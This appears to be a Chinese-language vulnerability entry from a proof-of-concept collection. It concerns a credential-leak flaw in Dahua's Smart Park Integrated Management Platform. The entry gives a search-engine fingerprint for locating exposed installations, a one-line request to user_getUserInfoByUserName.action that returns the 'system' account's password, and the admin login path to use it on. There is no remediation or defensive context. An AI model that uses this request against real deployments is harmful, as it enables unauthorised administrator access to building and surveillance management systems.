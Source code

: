 # 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 账号密码泄漏漏洞

## 漏洞描述

大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 中存在API接口，导致管理园账号密码泄漏

## 漏洞影响

<a-checkbox checked>智慧园区综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230814133226060.png)



请求POC

```javascript
/admin/user_getUserInfoByUserName.action?userName=system
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645603053384-cfa58ef1-09bd-41bf-ae36-aac6e71aa639.png)

获取后访问地址 

```javascript
/admin/login_login.action
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647425652303-43761555-6005-4458-96a7-d7990bcaca9b.png)